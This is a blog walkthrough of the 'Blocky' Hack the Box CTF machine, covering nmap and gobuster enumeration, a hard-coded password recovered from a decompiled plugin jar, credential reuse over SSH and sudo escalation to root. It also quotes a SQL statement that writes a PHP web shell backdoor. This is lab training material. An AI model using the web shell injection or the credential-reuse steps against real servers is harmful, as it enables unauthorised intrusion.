 ```yaml
---
title: Blocky, Hack the Box CTF Walkthrough
description: 
tag: CTF
image: /assets/img/posts/2021-30-04-blocky-hack-the-box-walkthrough/blocky.png
layout: post
description: "Blocky is an easy level CTF challenge from the Hack the Box Archives. Developed by Arrexel and consists of a linux machine configured as a Minecraft and wordpress server"
date:   2021-03-29 20:01:21 -0400
last-updated: 2021-03-29 20:01:21 -0400
tag: ctf
author: Tyler Butler
lead: "Using the Java Decompiler to Analyze Source Code"
card: card-2
---
```



Blocky is an easy level CTF challenge from the Hack the Box Archives. Developed by [Arrexel](https://app.hackthebox.eu/users/2904), the challenge consists of a linux machine configured as a Minecraft and wordpress server. It is easy to get carried away on this challenge, especially with poking at the wordpress and minecraft server, but once the user is compromised, escalation to root is trivial. My biggest takeaway from this CTF is to expand my basic directory brute force strategy to gaurentee a greater chance of discovery. 

## Major Takeaway's 
1) Don't reply on a simple `dirb` scan to brute force server directories   
2) Ensure to test username/password pairs on multiple services 


# Basic Enumeration 

To start, I used a simple `nmap` scan to look for running services and open ports. 

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo nmap -sV -A -O -p- 10.10.10.37                                                                                                                                     1 ⨯
[sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-30 14:31 EDT
Nmap scan report for 10.10.10.37
Host is up (0.029s latency).
Not shown: 65530 filtered ports
PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Device type: general purpose|WAP|specialized|storage-misc|broadband router|printer
Running (JUST GUESSING): Linux 3.X|4.X|5.X|2.6.X (94%), Asus embedded (90%), Crestron 2-Series (89%), HP embedded (89%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel cpe:/h:asus:rt-ac66u cpe:/o:crestron:2_series cpe:/h:hp:p2000_g3 cpe:/o:linux:linux_kernel:5.1 cpe:/o:linux:linux_kernel:2.6
Aggressive OS guesses: Linux 3.10 - 4.11 (94%), Linux 3.13 (94%), Linux 3.13 or 4.2 (94%), Linux 4.2 (94%), Linux 4.4 (94%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.12 (91%), Linux 3.2 - 4.9 (91%), Linux 3.8 - 3.11 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8192/tcp)
HOP RTT      ADDRESS
1   31.60 ms 10.10.14.1
2   31.65 ms 10.10.10.37

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 202.01 seconds
```

The resulting scan shows several running processes. I did some basic research on each service version to check for known vulnerabilities. At first, it seemed that the ProFTPD server might be vulnerable to the `mod_copy` exploit described in CVE-2015-3306. After trying a couple different PoC exploits, the target did not seem vulnerable so I moved on. Using `gobuster`, I searched for directories on the host. 

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -u http://10.10.10.37 -w /home/kali/eWPT/kali-tools/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.37
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/kali/eWPT/kali-tools/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/03/30 14:42:00 Starting gobuster in directory enumeration mode
===============================================================
/wiki                 (Status: 301) [Size: 309] [--> http://10.10.10.37/wiki/]
/wp-content           (Status: 301) [Size: 315] [--> http://10.10.10.37/wp-content/]
/plugins              (Status: 301) [Size: 312] [--> http://10.10.10.37/plugins/]   
/wp-includes          (Status: 301) [Size: 316] [--> http://10.10.10.37/wp-includes/]
/javascript           (Status: 301) [Size: 315] [--> http://10.10.10.37/javascript/] 
/wp-admin             (Status: 301) [Size: 313] [--> http://10.10.10.37/wp-admin/]   
/phpmyadmin           (Status: 301) [Size: 315] [--> http://10.10.10.37/phpmyadmin/] 
```

The resulting output indicated the /plugins directory, which when browsed, showed a custom plugin called BlockCore.jar. I downloaded the file and used the java decompiler tool `jd-gui` to inspect the classes. The class blockycore uses a hard-coded username and password, root:8YsqfCTnvxAUeduzjNSXe22.


<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-30-04-blocky-hack-the-box-walkthrough/blockycore.png">
    </div>
</div>
<br/>  


# Compromise User

With a pair of found credentials, I attempted to access the wordpress site with no luck. Eventually I found that I could use the credentials to log into the phpmyadmin instance. As administrator of phpmyadmin, I was sure I could pivot to gain access to the machine. I attempted to create a new user account for the wordpress site, change the current "notch" user's password, and even upload a reverse shell using direct sql commands. None of these options worked, however a technique I came across described by Ryan Trost in the book "Practical Intrusion Analysis: Prevention and Detection for the Twenty-First Century: Prevention and Detection for the Twenty-First Century" was fairly interesting. It involves injecting  SQL command to insert a backdoor php file, 

```SQL
select “<? System($_REQUEST[‘cmd’]); ?>” into outfile “/var/www/html/cmd.php”;
``` 

In this instance, this method was blocked by insufficient file permissions, but I will be sure to consider this on future challenges. Ultimately, I was able to get root by attempting to log into the ssh service with the notch user and the admin credentials found in the jar file. 

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh notch@10.10.10.37
notch@10.10.10.37's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Tue Jul 25 11:14:53 2017 from 10.10.14.230
notch@Blocky:~$ 
```
## User Flag

```bash
notch@Blocky:~$ ls
minecraft  user.txt
notch@Blocky:~$ cat user.txt
59fee0977fb60b8a0bc6e41e751f3cd5notch@Blocky:~$ 
```

## Compromise Root 

I instinctively tried to sudo to root, and was suprised when the notch user had permissions to do so. As root, I read the final flag. 

```bash
notch@Blocky:~$ sudo su root
[sudo] password for notch: 
Sorry, try again.
[sudo] password for notch: 
root@Blocky:/home/notch# cat ../../root/root.txt
0a9694a5b4d272c694679f7860f1cd5froot@Blocky:/home/notch# 
```